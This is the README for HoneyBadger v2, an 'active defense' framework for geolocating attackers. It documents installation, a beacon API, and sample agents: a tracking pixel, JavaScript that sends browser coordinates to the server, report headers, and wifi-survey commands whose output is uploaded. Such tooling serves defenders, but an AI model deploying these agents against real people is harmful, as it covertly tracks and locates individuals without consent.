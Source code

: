 # HoneyBadger v2

HoneyBadger is a framework for targeted geolocation. While honeypots are traditionally used to passively detect malicious actors, HoneyBadger is an Active Defense tool to determine who the malicious actor is and where they are located. HoneyBadger leverages "agents" built in various technologies that harvest the requisite information from the target host in order to geolocate them. These agents report back to the HoneyBadger API, where the data is stored and made available in the HoneyBadger user interface.

An early prototype of HoneyBadger (v1) can be seen in the presentation "[Hide and Seek: Post-Exploitation Style](http://youtu.be/VJTrRMqHU5U)" from ShmooCon 2013. The associated Metasploit Framework modules mentioned in the above presentation can be found [here](https://github.com/v10l3nt/metasploit-framework/tree/master/modules/auxiliary/badger). Note: These modules have not been updated to work with v2 of the API.

## Getting Started

### Pre-requisites

* Python 2.x

### Installation (Ubuntu and OS X)

1. Install [pip](https://pip.pypa.io/en/stable/installing/).
2. Clone the HoneyBadger repository.

    ```
    $ git clone https://github.com/lanmaster53/honeybadger.git
    ```

3. Install the dependencies.

    ```
    $ cd honeybadger/server
    $ pip install -r requirements.txt
    ```

4. Initialize the database. The provided username and password will become the administrator account.

    ```
    $ python
    >>> import honeybadger
    >>> honeybadger.initdb(<username>, <password>)
    ```

5. Start the HoneyBadger server.

    ```
    $ python ./honeybadger.py
    ```

6. Visit the application and authenticate.
7. Add users and targets as needed using their respective pages.
8. Deploy agents for the desired target.

Clicking the "demo" button next to any of the targets will launch a demo web page containing an `HTML`, `JavaScript`, and `Applet` agent for that target.

### Fresh Start

Make a mess and want to start over fresh? Do this.

```
$ python
>>> import honeybadger
>>> honeybadger.dropdb()
>>> honeybadger.initdb(<username>, <password>)
```

## API Usage

### IP Geolocation

This method geolocates the target based on the source IP of the request and assigns the resolved location to the given target and agent.

Example: (Method: `GET`)

```
http://<path:honeybadger>/api/beacon/<guid:target>/<string:agent>
```

### Known Coordinates

This method accepts previously resolved location data for the given target and agent.

Example: (Method: `GET`)

```
http://<path:honeybadger>/api/beacon/<guid:target>/<string:agent>?lat=<float:latitude>&lng=<float:longitude>&acc=<integer:accuracy>
```

### Wireless Survey

This method accepts wireless survey data and parses the information on the server-side, extracting what is needed to make a Google API geolocation call. The resolved geolocation data is then assigned to the given target. Parsers currently exist for survey data from Windows, Linux and OS X using the following commands:

Windows:

```
cmd.exe /c netsh wlan show networks mode=bssid | findstr "SSID Signal"
```

Linux:

```
/bin/sh -c iwlist scan | egrep 'Address|ESSID|Signal'
```

OS X:

```
/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s
```

Example: (Method: `POST`)

```
http://<path:honeybadger>/api/beacon/<guid:target>/<string:agent>
```

POST Payload:

```
os=<string:operating-system>&data=<base64:data>
```

The `os` parameter must match one of the following regular expressions:

* `re.search('^mac os x', os.lower())`
* `re.search('^windows', os.lower())`
* `re.search('^linux', os.lower())`

### Universal Parameters

All requests can include an optional `comment` parameter. This parameter is sanitized and displayed within the UI as miscellaneous information about the target or agent.

## Example Web Agents

### HTML

```
img = new Image();
img.src = "http://<path:honeybadger>/api/beacon/<guid:target>/HTML";
```

or

```
<img src="http://<path:honeybadger>/api/beacon/<guid:target>/HTML" width=1 height=1 />
```

### JavaScript

Note: JavaScript (HTML5) geolocation agents will not work unless deployed in a secure context (HTTPS), or local host.

```
function showPosition(position) {
    img = new Image();
    img.src = "http://<path:honeybadger>/api/beacon/<guid:target>/JavaScript?lat=" + position.coords.latitude + "&lng=" + position.coords.longitude + "&acc=" + position.coords.accuracy;
}

if (navigator.geolocation) {
    navigator.geolocation.getCurrentPosition(showPosition);
}
```

### Content Security Policy

```
response.headers['X-XSS-Protection'] = '0'
response.headers['Content-Security-Policy-Report-Only'] = '<string:policy>; report-uri http://<path:honeybadger>/api/beacon/<guid:target>/Content-Security-Policy'
```

### XSS Auditor

```
response.headers['X-XSS-Protection'] = '1; report=http://<path:honeybadger>/api/beacon/<guid:target>/XSS-Protection'
```
